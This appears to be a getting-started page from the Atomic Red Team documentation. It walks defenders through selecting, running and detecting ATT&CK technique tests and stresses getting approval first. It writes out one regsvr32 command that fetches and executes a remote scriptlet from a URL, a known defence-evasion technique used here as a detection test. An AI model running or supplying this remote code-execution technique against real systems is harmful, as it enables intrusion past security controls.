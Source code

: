 ```yaml
---
layout: default
---
```


# Getting Started Testing with Atomic Tests

<img style="float: right;" src="https://www.redcanary.com/wp-content/uploads/image2-5.png">

We suggest a phased approach to running a test and evaluating your results:

1. [Select a test](#select-a-test)
2. [Execute Test](#execute-test)
3. [Collect Evidence](#collect-evidence)
4. [Develop Detection](#develop-detection)
5. [Measure Progress](#measure-progress)

## Best Practices

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision
and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR
solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to
execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

## Select a test
Select one or more Atomic Tests that you plan to execute. A complete list, ATT&CK matrices, and platform-specific
matrices linking to Atomic Tests can be found here:

- [Complete list of Atomic Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/index.md)
- [Atomic Tests per the ATT&CK Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/matrix.md)
- Windows [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/windows-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/windows-matrix.md)
- macOS [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/macos-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/macos-matrix.md)
- Linux [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/linux-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/linux-matrix.md)

## Execute Test

In this example we will use Technique `T1117 "Regsvr32"` and Atomic Test `"Regsvr32 remote COM scriptlet execution"`. This particular 
test is fairly easy to exercise since the tool is on all Windows workstations by default.

The details of this test, [which are located here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution),
describe how you can test your detection by simply running the below command:

```
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
```

## Collect Evidence

What does your security solution observe?
- You may see a file modification in the user’s profile.
- You may detect network connections made by regsvr32.exe to an external IP.
- There may be an entry in the proxy logs.
- You may observe the scrobj.dll loading on Windows.
- Or you might not observe any behavior on the endpoint or network.

This is why we test! We want to identify visibility gaps and determine where we need to make improvements.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

## Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations
and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately
tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression,
you are going to be digging out from a mountain of false positives. But if you write it too narrow and it
only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly
modify their command line to evade your detection.

## Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)
